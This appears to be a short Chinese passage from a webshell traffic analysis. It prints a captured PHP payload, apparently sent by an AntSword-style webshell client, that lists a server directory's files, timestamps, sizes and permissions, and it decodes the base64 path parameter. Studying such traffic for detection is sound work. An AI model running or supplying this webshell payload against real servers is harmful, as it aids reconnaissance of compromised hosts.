 当使用列目录等命令抓包分析如下：

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out){
    return $out;
};
function asoutput(){
    $output=ob_get_contents();
    ob_end_clean();
    echo "7322e6777";
    echo @asenc($output);
    echo "7529076fb4d2";
}
ob_start();
try{
    $D=base64_decode($_POST["od0d1a967133cb"]);
    $F=@opendir($D);
    if($F==NULL){
        echo("ERROR:// Path Not Found Or No Permission!");
    }else{
        $M=NULL;
        $L=NULL;
        while($N=@readdir($F)){
            $P=$D.$N;
            $T=@date("Y-m-d H:i:s",@filemtime($P));
            @$E=substr(base_convert(@fileperms($P),10,8),-4);
            $R="	".$T."	".@filesize($P)."	".$E."	";
            if(@is_dir($P))
                $M.=$N."/".$R;
            else $L.=$N.$R;
        }
        echo $M.$L;
        @closedir($F);
    };
}catch(Exception $e){
    echo "ERROR://".$e->getMessage();
};
asoutput();
die();
&od0d1a967133cb=QzovcGhwU3R1ZHkvV1dXLw==
```

```php
base64_decode("QzovcGhwU3R1ZHkvV1dXLw==")="C:/phpStudy/WWW/"
```
